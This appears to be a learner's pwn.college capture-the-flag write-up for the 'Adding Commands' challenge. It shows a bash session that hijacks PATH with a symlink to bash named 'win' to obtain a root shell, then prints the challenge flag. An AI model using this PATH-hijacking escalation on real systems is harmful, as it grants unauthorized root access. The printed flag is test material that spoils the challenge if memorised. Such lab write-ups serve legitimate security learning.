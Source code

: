# Adding Commands
## Code:
```bash
hacker@path~adding-commands:~$ ln -s /usr/bin/bash ./win
hacker@path~adding-commands:~$ PATH=/home/hacker/:$PATH
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
root@path~adding-commands:~# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@path~adding-commands:~# cat /flag
pwn.college{4f2PWECBY03zD0oeoVYg_oFONNU.dZzNyUDL0kTN0czW}
```
## Learnings:
- i actually didnt get the answer for a very long time then i finally got the solution in yt video so i saw that and then chatgpted to understand in detail whats going on
## References:
YouTube


